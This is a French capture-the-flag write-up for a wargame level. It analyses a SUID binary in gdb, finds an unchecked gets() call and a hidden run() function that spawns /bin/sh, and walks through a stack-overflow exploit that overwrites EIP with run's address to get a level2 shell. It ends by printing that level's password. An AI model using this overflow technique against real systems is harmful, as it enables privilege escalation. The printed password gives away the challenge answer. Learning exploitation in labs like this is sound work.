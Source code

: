 ## Analyse

- `ls -la`
  ```
  [...]
    -rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
  [...]
  ```
    - On a un binaire appartenant a level2 dans le home avec les droits SUID.

- `./level1`
  ```
    
  ```
  - Le programme attend un input
    - `test`
      - rien

- `gdb level1`
  - `set disassembly-flavor intel`
  - `info function`
    ```asm
    [...]
      0x08048444  run
      0x08048480  main
    [...]
    ```
    - On trouve une fonction run en plus du main
  - `disas main`
    ```asm
    Dump of assembler code for function main:
       0x08048480 <+0>:	push   ebp
       0x08048481 <+1>:	mov    ebp,esp
       0x08048483 <+3>:	and    esp,0xfffffff0
       0x08048486 <+6>:	sub    esp,0x50
       0x08048489 <+9>:	lea    eax,[esp+0x10]
       0x0804848d <+13>:	mov    DWORD PTR [esp],eax
       0x08048490 <+16>:	call   0x8048340 <gets@plt>
       0x08048495 <+21>:	leave
       0x08048496 <+22>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+6>
      - Initialisation de la mémoire (libère 80 octets pour la stack et aligne la mémoire)<br/><br/>
    - <+9> ... <+16>
      - Stocke l'adresse de esp + 16 dans eax
      - Stocke la valeur de eax (l'adresse de esp + 16) dans la stack (à esp)
      - Call gets() avec le paramètre stocké dans la stack<br/><br/>
    - <+21> ... <+22>
      - réinitialisation de la mémoire, fin d'exécution<br/><br/>
    - Le call a gets() n'est pas protégé par une condition
    - La fonction run n'est pas appelée
    
  - `disas run`
    ```asm
    Dump of assembler code for function run:
       0x08048444 <+0>:	push   ebp
       0x08048445 <+1>:	mov    ebp,esp
       0x08048447 <+3>:	sub    esp,0x18
       0x0804844a <+6>:	mov    eax,ds:0x80497c0
       0x0804844f <+11>:	mov    edx,eax
       0x08048451 <+13>:	mov    eax,0x8048570
       0x08048456 <+18>:	mov    DWORD PTR [esp+0xc],edx
       0x0804845a <+22>:	mov    DWORD PTR [esp+0x8],0x13
       0x08048462 <+30>:	mov    DWORD PTR [esp+0x4],0x1
       0x0804846a <+38>:	mov    DWORD PTR [esp],eax
       0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
       0x08048472 <+46>:	mov    DWORD PTR [esp],0x8048584
       0x08048479 <+53>:	call   0x8048360 <system@plt>
       0x0804847e <+58>:	leave
       0x0804847f <+59>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (libère 24 octets pour la stack et aligne la mémoire)<br/><br/>
    - <+6> ... <+41>
      - Stocke la valeur dans le registre data segment à l'adresse 0x80497c0 dans eax, puis dans edx
        - `x/s 0x80497c0`
          - `0x80497c0 <stdout@@GLIBC_2.0>:	 ""`
      - Stocke la valeur à l'adresse 0x8048570 dans eax
        - `x/s 0x8048570`
          - `0x8048570:	 "Good... Wait what?\n"`
      - Stocke la valeur de edx (stdout) dans la stack (à esp + 12)
      - Stocke 0x13 (19) dans la stack (à esp + 8)
      - Stocke 0x1 (1) dans la stack (à esp + 4)
      - Stocke la valeur de eax dans la stack (à esp)
      - Call fwrite() avec les arguments stockés dans la stack<br/><br/>
    - <+46> ... <+53>
      - Stocke la valeur à l'adresse 0x8048584 dans la stack (à esp)
        - `x/s 0x8048584`
          - `0x8048584:	 "/bin/sh"`
      - Call system() avec l'argument stocké dans la stack<br/><br/>
    - <+58> ... <+59>
      - réinitialisation de la mémoire, fin d'exécution<br/><br/>
    - La fonction run affiche "Good... Wait what?\n" sur la sortie standard et lance un shell via la commande system()

## Exploit

- L'objectif va être de forcer l'appel de la fonction run() par la fonction main() pour avoir notre shell en tant que level2.
- On va tirer avantage de la [vulnérabilité de gets à un buffer overflow](https://faq.cprogramming.com/cgi-bin/smartfaq.cgi?answer=1049157810&id=1043284351) pour écrire l'adresse de run dans l'EIP, puisqu'il n'est pas protégé.
- Comme vu plus haut, main alloue 80 octets dans la stack pour ses variables, on va commencer par là:
  - `python -c 'print "a" * 80' > /tmp/exploit`
  - `gdb level1`
    - `run < /tmp/exploit`
      ```
      Starting program: /home/user/level1/level1 < /tmp/exploit

      Program received signal SIGSEGV, Segmentation fault.
      0x61616161 in ?? ()
      ```
      - Nice, on SegFault comme attendu et l'eip est réécrit avec des a: `0x61616161`

- On devrait pouvoir écraser la valeur de l'eip avec les 4 derniers octets, on vérifie avec un exploit de 76 "a" et 4 "b" :
  - `python -c 'print "a" * 76 + "b" * 4' > /tmp/exploit`
    ```
    Starting program: /home/user/level1/level1 < /tmp/exploit

    Program received signal SIGSEGV, Segmentation fault.
    0x62626262 in ?? ()
    ```
    - Parfait, l'EIP est écrasé par les 4 derniers octets: `0x62626262`
- On a vu lors de l'analyse que l'adresse de la fonction run() est 0x08048444, on la passe en [little endian](https://security.stackexchange.com/questions/177819/why-do-we-use-little-endian-in-buffer-overflow-attacks) avant de la load à la fin de notre exploit:
  - `python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/exploit`
  - `cat /tmp/exploit | ./level1`
    ```
    Good... Wait what?
    Segmentation fault (core dumped)
    ```
    - Ok, on lance bien la fonction run(), mais le shell est fermé tout de suite, il faut [garder stdin ouvert avec cat](https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process):
      > " The shell doesn't have any input, when it detects EOF it dies. " 
      - `cat /tmp/exploit - | ./level1`
        ```
        Good... Wait what?
        
        ```
        - `whoami`
          ```
          level2
          ```
          - `cat /home/user/level2/.pass`
            ```
            53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
            ```
